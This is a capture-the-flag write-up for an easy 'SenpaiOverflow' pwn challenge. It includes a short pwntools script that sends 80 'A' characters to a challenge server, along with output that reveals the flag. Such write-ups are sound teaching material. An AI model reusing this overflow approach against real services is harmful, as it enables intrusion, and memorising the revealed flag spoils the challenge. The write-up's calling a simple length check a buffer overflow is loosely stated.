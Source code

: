 # SenpaiOverflow - Buffer Overflow Challenge

## Challenge Description

**Category**: Pwn
**Difficulty**: Easy

This challenge presents a program called "SenpaiOverflow" with an anime-themed scenario. The goal is to make the senpai notice you by exploiting a vulnerability in the code to reveal the flag.

## Challenge Analysis

This challenge is a similar copy of the TitanBreacher challenge, just with an anime theme. Both challenges use the same vulnerability concept and exploit method.

When running the binary locally, we can see the program's behavior:

```
┌──(kali㉿kali)-[~/Desktop/citeflag/pwn/Senpaioverfllow]
└─$ ls
senpai
                                                                                                                                          
┌──(kali㉿kali)-[~/Desktop/citeflag/pwn/Senpaioverfllow]
└─$ chmod +x senpai 
                                                                                                                                          
┌──(kali㉿kali)-[~/Desktop/citeflag/pwn/Senpaioverfllow]
└─$ ./senpai        
╭─────────────────────────────────────────╮
│       Welcome to Anime Academy!         │
│ Tell senpai why you deserve attention!  │
╰─────────────────────────────────────────╯
Your message to senpai: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You wrote: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Ohh? What's this? Your message was so long...
Error: Could not open flag.txt!
```

The vulnerability is clear - the program has a buffer overflow vulnerability where a long input causes the program to enter a conditional block that prints the flag. When providing a long string of characters, we can see it's looking for a flag.txt file that doesn't exist on our local system.

## Exploitation

Just like in the TitanBreacher challenge, we need to create an input longer than 70 characters to trigger the condition that reveals the flag.

## Solution

The solution as implemented in the Python script works by connecting to the remote server and sending a long string of characters:

```python
#!/usr/bin/env python3
from pwn import *

# Set up pwntools
context.log_level = 'info'

# Connect to challenge
try:
    conn = remote('139.59.162.57', 7162)
    
    # Create payload - send 80 characters to ensure we exceed the threshold
    payload = b'A' * 80
    
    # Send payload when prompted
    conn.recvuntil(b"Your message to senpai: ")
    conn.sendline(payload)
    
    # Receive response
    conn.interactive()
except Exception as e:
    error(f"Error occurred: {str(e)}")
```

When run against the remote server, we get the flag:

```
(env) root@server:~/challenges-final/SenpaiOverflow# python solve.py 
[+] Opening connection to localhost on port 7162: Done
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You wrote: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Ohh? What's this? Your message was so long...

╭─────────────────────────────────────────╮
│           SENPAI NOTICED YOU!!          │
╰─────────────────────────────────────────╯
Here's your flag: CMC{s3np41_n0t1c3d_y0u_uwu} 
[*] Got EOF while
```

## Note

"I didn't want to complicate pwn, I don't know much about it so I made 2 easy challenges that are the same and 1 different slightly difficult."

## Conclusion

This challenge demonstrates a basic buffer overflow vulnerability, similar to the TitanBreacher challenge but with an anime theme. Both challenges serve as good introductions to the world of binary exploitation, focusing on the most fundamental concepts without requiring advanced knowledge of memory corruption techniques. 